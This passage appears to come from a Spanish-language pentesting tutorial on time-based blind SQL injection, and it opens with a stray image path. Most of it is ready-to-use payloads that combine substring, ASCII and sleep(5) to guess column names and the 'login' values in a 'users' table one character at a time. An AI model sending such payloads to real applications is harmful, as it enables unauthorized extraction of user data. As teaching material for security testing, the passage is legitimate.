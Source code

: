 #### Opción ocupando ASCII

```sql
' or 1=1 AND ASCII(substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),1,1)) = 112 AND sleep(5)-- -
```

Este proceso se puede realizar para encontrar cualquier columna, como por ejemplo encontrar "login". Ahora si se quiere ver el contenido en este caso de la tabla ```users```, hacemos lo siguiente para la columna ```login```:

```sql
' or 1=1 AND substring((SELECT login FROM users LIMIT 1,1),1,1) = 'b' AND sleep(5)-- -
```

[![sqlinjectblindsleep24](/images/sqlinjectblindsleep24.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep24.png)

```sql
' or 1=1 AND substring((SELECT login FROM users LIMIT 1,1),2,1) = 'e' AND sleep(5)-- -
```

